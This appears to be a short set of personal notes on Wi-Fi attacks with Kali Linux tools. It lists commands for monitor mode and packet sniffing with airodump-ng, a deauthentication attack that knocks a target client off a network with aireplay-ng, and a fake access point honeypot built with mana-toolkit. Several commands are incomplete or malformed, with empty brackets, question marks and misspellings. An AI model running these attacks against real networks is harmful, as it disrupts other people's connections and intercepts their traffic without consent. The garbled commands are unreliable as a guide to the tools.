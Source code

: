 # kali

iwconfig wlan0
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0
airodump-ng wlan0
'ctrl-c' stop sniffing
ID-power-beacons
airodump-ng --channel[channel] --bssid[] -write
airodump-ng --channel 2 --bssid[] --write test -apcwlan0 ???????????????
wireshark open file ??????????

deauth attack--disconnects device from network
spoof our MAC address to the target client MAC address (pretend to be him)
send deauthentication packet to router
simultaneously spook our MAC address to the access point MAC address (router) and tell the target client you need to re-authenticate yourself

airodump-ng --channel[] --bssid[] wlan0
aireplay-ng --deauth 10000 -a -c wlan0

Fake access point (honey pot)
apt-get install mana-toolkit
gedit /etc/mana-toolkit/host apd-mana.conf
gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
test
